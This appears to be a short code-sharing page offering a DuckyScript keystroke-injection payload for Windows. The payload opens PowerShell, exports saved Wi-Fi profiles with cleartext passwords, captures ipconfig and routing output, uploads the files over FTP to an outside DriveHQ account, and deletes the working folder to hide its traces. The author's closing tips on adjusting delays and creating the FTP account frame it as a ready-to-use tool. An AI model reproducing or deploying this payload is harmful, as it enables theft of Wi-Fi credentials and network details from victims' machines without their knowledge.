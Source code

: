 ### This script get all info about wifi and password of saved networks and remove the directory used

    DELAY 1000
    GUI r
    DELAY 300
    STRING powershell
    ENTER
    DELAY 700
    STRING cd $ENV:UserProfile
    DELAY 100
    ENTER
    STRING mkdir tmp
    ENTER
    DELAY 800
    STRING cd tmp
    ENTER
    DELAY 800
    STRING netsh wlan export profile key=clear
    ENTER
    DELAY 1500
    STRING ipconfig > ipc.txt
    ENTER
    DELAY 600
    STRING netstat -r > nr.txt
    ENTER
    DELAY 600
    STRING ftp ftp.drivehq.com
    ENTER
    DELAY 300
    STRING USERNAME_FTP_DRIVEHQ
    ENTER
    DELAY 300
    STRING PASSWORD_FTP_DRIVEHQ
    ENTER
    DELAY 300
    STRING prompt
    ENTER
    DELAY 400
    STRING mput *.*
    ENTER
    DELAY 300
    STRING quit
    ENTER
    DELAY 300
    STRING cd ..
    ENTER
    STRING Remove-Item -Recurse -Force tmp
    ENTER
    STRING exit
    ENTER

*  This code works well in my PC (if you need adjust delays)
*  Make a free ftp account here: https://www.drivehq.com
*  Change (of course) your username & password